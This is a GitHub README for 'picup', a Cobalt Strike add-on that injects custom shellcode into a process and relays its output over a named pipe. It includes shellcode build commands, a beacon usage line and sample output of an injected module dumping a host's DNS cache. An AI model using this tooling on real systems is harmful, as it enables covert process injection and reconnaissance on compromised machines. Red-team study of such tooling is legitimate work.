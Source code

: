# picup

`Picup` adds the option to Cobalt Strike to send shellcode output to the console. 

First, the aggressor script injects the shellcode with `shinject`. The shellcode than starts a Named Pipe to write its output to it. Than the BOF is loaded and conntects to the Named Pipe. There it reads all the data an print it to the console by using `BeaconPrintf`. 

Of course, the Beacon object files (BOFs) are suitable for this and also far better known and supported, but in my case I wanted to run my own shellcode to get better at C and to learn the concept of position indipentend code. Maybe there are even some situations where shellcode is the better choice. 

There are some general advandatges from shellcode to BOFs like the indipendence from C2 (even most C2 have COFF-Loaders integrated) or run it in your own loader C2.



# Usage

## How to compile


```bash
nasm -f win64 adjuststack.asm -o adjuststack.o
nasm -f win64 chkstk_ms.asm -o chkstk_ms.o
x86_64-w64-mingw32-gcc dnscache.c -Wall -m64 -ffunction-sections -fno-asynchronous-unwind-tables -nostdlib -fno-ident -O2 -c -o dnscache.o -Wl,-Tlinker.ld,--no-seh
x86_64-w64-mingw32-ld -s adjuststack.o chkstk_ms.o dnscache.o -o dnscache.exe
for i in $(objdump -d dnscache.exe |grep "^ " | cut -f2); do echo -e -n "\x$i"; done > dnscache.bin
```
or run

```bash
bash compile.sh
```

The BOF.

```
 x86_64-w64-mingw32-gcc -c piper.x64.c -o piper.x64.o
```

## Use it with Cobalt Strike
```bash
# Clone the repository to your clients Cobalt Strike folder 
git clone https://github.com/svnsyn/picup
cd picup
bash compile.sh
```

```
beacon> picup dnscache
```


# Example

```
beacon> picup dnscache
[*] Waiting for module named pipe.
[*] Injecting Module.
[+] host called home, sent: 1106 bytes
[*] Tasked beacon to inject C:\Users\rene\Desktop\cobaltstrike4.5\minject\dnscache.bin into 5088 (x64)
[+] received output:
[+] Pipe closed by module, GLE=233.

[+] received output:

 www.gstatic.com
 ----------------------------------------
 A Record: 104.26.3.5
 
 example.org
 ----------------------------------------
 A Record: 93.184.216.34

 www.googletagmanager.com
 ----------------------------------------
 A Record: 160.215.147.0
 A Record: 142.250.181.232

 gbc4.fr.eu.criteo.com
 ----------------------------------------
 A Record: 185.235.84.130
 A Record: 185.235.84.116
 A Record: 185.235.84.128
 A Record: 185.235.84.134
 A Record: 185.235.84.118
 A Record: 185.235.84.115
 pr-bh.ybp.yahoo.com
 ----------------------------------------
 adservice.google.com
 ----------------------------------------
 A Record: 172.217.23.98
 ade.googlesyndication.com
 [...]

[+] host called home, sent: 3615 bytes
```

------------

# Modules 

## Dnscache PIC Module

Reads the dns cache of the system like `ipconfig /displaydns` would. No network calls are made since the [DnsQuery_W](https://docs.microsoft.com/en-us/windows/win32/api/windns/nf-windns-dnsquery_w) are executed with the query option [DNS_QUERY_NO_WIRE_QUERY](https://docs.microsoft.com/en-us/windows/win32/dns/dns-constants). Resolves DNS-Record to IP address if the entry exists.

------------

# Todo

- Random or common names for Named Pipes.
- Just use the aggressor script to read from the Named Pipe (like here [repo](https://github.com/rxwx/cs-rdll-ipc-example)).
- ...

# References


- [@Hasherezade](https://twitter.com/hasherezade): This [paper](https://vxug.fakedoma.in/papers/VXUG/Exclusive/FromaCprojectthroughassemblytoshellcodeHasherezade.pdf) 
- [@ParanoidNinja](https://twitter.com/NinjaParanoid): This [code](https://github.com/paranoidninja/PIC-Get-Privileges) and this great [tutorial](https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/): Used  `adjuststack.asm` and `addresshunter.h` from it. 
- [Beacon Object Files](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_main.htm)
- [Aggressor Scripts](https://trial.cobaltstrike.com/aggressor-script/index.html).
- [@csandker](https://twitter.com/0xcsandker): One of the best [blosposts](https://csandker.io/2021/01/10/Offensive-Windows-IPC-1-NamedPipes.html) about Named Pipes I was able to find (with security perspective). 
- [@Bufflevoerflow](https://twitter.com/buffaloverflow): This [repo](https://github.com/rxwx/cs-rdll-ipc-example) was my foundation.
- [@MrUn1k0d3r](https://twitter.com/MrUn1k0d3r/): Really awesome [Patreon](https://www.patreon.com/MrUn1k0d3r). 
- [@thefLink](https://github.com/codewhitesec/HandleKatz): On of the best sources for learning C (PIC-Style and in general) and I used `chkstk_ms.asm` from it. 
- [React OS](https://reactos.org/): Implementation of [ipconfig](https://doxygen.reactos.org/d3/dae/ipconfig_8c_source.html)



